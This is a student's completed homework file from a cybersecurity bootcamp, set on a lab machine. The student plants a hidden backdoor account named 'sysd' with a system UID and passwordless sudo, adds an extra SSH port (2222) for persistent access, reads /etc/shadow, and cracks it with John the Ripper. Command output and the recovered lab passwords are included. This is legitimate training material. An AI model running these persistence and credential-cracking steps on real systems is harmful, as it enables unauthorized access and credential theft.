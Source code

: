 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here`: **sudo adduser --no-create-home sysd**

2. Give your secret user a password: 
    - `Your solution command here`: **sudo passwd sysd** (**The passwd is set during adduser, this command helps to reset if required or create a new one if passwd hasn't already been set**)

3. Give your secret user a system UID < 1000:
    - `Your solution command here`: **sudo usermod -u 333 sysd**

4. Give your secret user the same GID:
   - `Your solution command here`: **sudo groupmod -g 333 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   - `Your solution command here`: **sudo visudo  **

     **In the /etc/sudoers file add the line to the end of file:**
     
     ***sysd ALL=(ALL:ALL) NOPASSWD:ALL***
   
6. Test that `sudo` access works without your password:

    ```bash
    Your bash commands here: 
    su sysd
    #Once, I got into sysd, I tried the below commands and they executed.
    sudo -l
    sudo less /etc/shadow
    sudo su root
    
    Below is a capture of what came up on the screen:
    (1) sysd@scavenger-hunt:/$ sudo -l
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    
    
    (2) The sudo less /etc/shadow brought up the shadow file...
    
    (3) sysd@scavenger-hunt:/$ sudo su root
    
    You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0
    
    root@scavenger-hunt:/# 
    #I am in root now, without entering a password for root.
    
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    Being in root first, I edited the /etc/ssh/sshd_config file. I uncommented the Port 22 and added a line Port 2222 below it and saved the file. Below is an excerpt of the sshd_config.file.
    
    ```bash
    Your bash commands here:
    root@scavenger-hunt:/# nano /etc/ssh/sshd_config
    
    #       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $
    
    # This is the sshd server system-wide configuration file.  See
    # sshd_config(5) for more information.
    
    # This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin
    
    # The strategy used for options in the default sshd_config shipped with
    # OpenSSH is to specify options with their default value where
    # possible, but leave them commented.  Uncommented options override the
    # default value.
    
    Port 22
    Port 2222
    #AddressFamily any
    
    ```

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:
    - `Your solution command here`: **systemctl restart ssh**

      [root@scavenger-hunt:/# systemctl restart ssh
      root@scavenger-hunt:/# systemctl status ssh
      ● ssh.service - OpenBSD Secure Shell server
         Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
         Active: active (running) since Tue 2021-10-19 03:15:32 UTC; 17s ago
        Process: 1632 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
       Main PID: 1643 (sshd)
          Tasks: 1 (limit: 1105)
         CGroup: /system.slice/ssh.service
                 └─1643 /usr/sbin/sshd -D
    
      Oct 19 03:15:32 scavenger-hunt systemd[1]: Starting OpenBSD Secure Shell server...
      Oct 19 03:15:32 scavenger-hunt sshd[1643]: Server listening on 0.0.0.0 port 2222.
      Oct 19 03:15:32 scavenger-hunt sshd[1643]: Server listening on :: port 2222.
      Oct 19 03:15:32 scavenger-hunt sshd[1643]: Server listening on 0.0.0.0 port 22.
      Oct 19 03:15:32 scavenger-hunt sshd[1643]: Server listening on :: port 22.
      Oct 19 03:15:32 scavenger-hunt systemd[1]: Started OpenBSD Secure Shell server.]
    
2. Exit the `root` account:
    - `Your solution command here`: **exit**

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here` : **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - `Your solution command here`: **sudo su**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`: **ssh sysd@192.168.6.105 -p 2222**

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`: **sudo su**
    
    - **john /etc/shadow**
    
    - Below is the results after running john.
    
    - root@scavenger-hunt:/# john /etc/shadow
      Created directory: /root/.john
      Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
      Press 'q' or Ctrl-C to abort, almost any other key for status
      0g 0:00:00:12 28% 1/3 0g/s 422.9p/s 422.9c/s 422.9C/s 99999t!..et99999
      computer         (stallman)
      freedom          (babbage)
      trustno1         (mitnik)
      dragon           (lovelace)
      lakers           (turing)
      passw0rd         (sysadmin)
    
      Goodluck!        (student)
    
      Chocolate       (sysd)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

